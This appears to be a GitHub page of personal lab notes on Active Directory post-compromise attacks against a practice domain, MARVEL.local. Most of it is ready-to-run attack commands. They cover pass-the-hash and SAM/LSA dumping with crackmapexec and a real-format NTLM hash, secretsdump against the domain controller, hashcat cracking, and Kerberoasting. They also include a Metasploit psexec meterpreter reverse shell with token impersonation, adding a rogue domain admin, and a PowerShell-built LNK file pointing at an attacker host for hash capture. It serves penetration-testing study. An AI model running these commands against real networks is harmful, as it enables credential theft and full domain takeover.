 # Active Directory Post Compromise Attacks

## Pass the Password/Pass the Hash attack

Pass the password

    • Crackmapexec smb <iprange> -u fcastle -d MARVEL.local -p Password1
    
Pass the Hash
    • crackmapexec smb 192.168.146.1/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c --local-auth
    
Dump the sam on the machine
    
    • crackmapexec smb 192.168.146.1/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c --local-auth --sam
    
Dumping the shares
    • crackmapexec smb 192.168.146.1/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c --local-auth --shares
    
Dump LSA
    
    • crackmapexec smb 192.168.146.1/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c --local-auth --lsa
    
All passwords
    • Crackmapexec smb -L
    
Use a module eg lsassy

Access Crackmapexec Database
    • Cmedb 

![alt text](Assests/passthepassword1.png)
![alt text](Assests/passthepassword2.png)
![alt text](Assests/passthepassword3.png)
![alt text](Assests/passthepassword4.png)
![alt text](Assests/passthepassword5.png)
![alt text](Assests/passthepassword6.png)
![alt text](Assests/passthepassword7.png)
![alt text](Assests/passthepassword8.png)


## Dumping and Cracking Hashes

Dump local SAM hashes

    • secretsdump.py MARVEL.local/fcastle:'Password123!'@192.168.146.152

    • secretsdump.py administrator:@192.168.146.150  -hashes aad3b435b51404eeaad3b435b51404ee:1f3f6d76341609e02852abfe46d5de0c

Cracking hash (only NT hash is required)

    • hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt

![alt text](Assests/Dump1.png)
![alt text](Assests/Dump2.png)


## Kerbroasting

    • sudo GetUserSPNs.py MARVEL.local/fcastle:Password123! -dc-ip 192.168.146.149 -request     
    • hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt

![alt text](Assests/kerberoasting1.png)
![alt text](Assests/kerberoasting2.png)

## Token Impersonation

Msfconsole 

    • Use exploit/windows/smb/psexec
    • set payload windows/x64/meterpreter/reverse_tcp

    • Meterpreter >>  shell
    • Meterpreter >> load incognito

    • List_tokens -u 

    • List_tokens -g

    • impersonate_token marvel\\fcastle

To get back to the NT auth acc : rev2self

Add new user to the domain
    • net user /add hawkeye Password123! /domain

Add hawkeye to the domain admin group

    • net group "Domain Admins" hawkeye /ADD /DOMAIN

Dumping secrets of the domain controller using hawkeye

    • secretsdump.py MARVEL.local/hawkeye:'Password123!'@192.168.146.149


![alt text](Assests/Token1.png)
![alt text](Assests/Token2.png)
![alt text](Assests/Token3.png)
![alt text](Assests/Token4.png)
![alt text](Assests/Token5.png)
![alt text](Assests/Token6.png)
![alt text](Assests/Token7.png)
![alt text](Assests/Token8.png)

## LNK file attacks

Elevated Powershell

$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\attackerip\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()



    • Sudo responder -I eth0 -dp

    • Netexec smb <machine ip> -d marvel.local -u fcastle -p Password -M slinky -M slinky -NAME=test •SERVER=<Atttacker IP> 

    

